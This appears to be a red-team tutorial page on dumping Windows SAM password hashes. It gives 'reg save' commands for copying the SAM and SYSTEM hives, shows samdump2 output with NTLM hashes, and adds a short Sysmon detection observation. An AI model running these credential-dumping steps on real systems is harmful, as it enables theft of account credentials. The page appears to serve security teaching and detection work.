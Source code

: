 ```yaml
---
layout: post
title: "sam"
date: 2024-06-18
categories: credential-access-and-credential-dumping
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /credential-access-and-credential-dumping/
---
```


---
description: >-
  Security Accounts Manager (SAM) credential dumping with living off the land
  binary.
---

# Security Accounts Manager

## Execution

Dumping the registry hives required for hash extraction:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```text
reg save hklm\system system
reg save hklm\sam sam
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the files are dumped and exfiltrated, we can dump hashes with samdump2 on kali:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
root@~/tools/mitre/pwdump# samdump2 system sam 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:9f288c9a9aee917e19d4b21928b98268:::
low:1003:aad3b435b51404eeaad3b435b51404ee:4bdaf9484819a077562ebeefaed6ca75:::
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Sysmon logs with commandlines will reveal credential dump attempts from the registry as expected:

![](../../.gitbook/assets/pwdump-reg-sysmon.png)
@spotheplanet
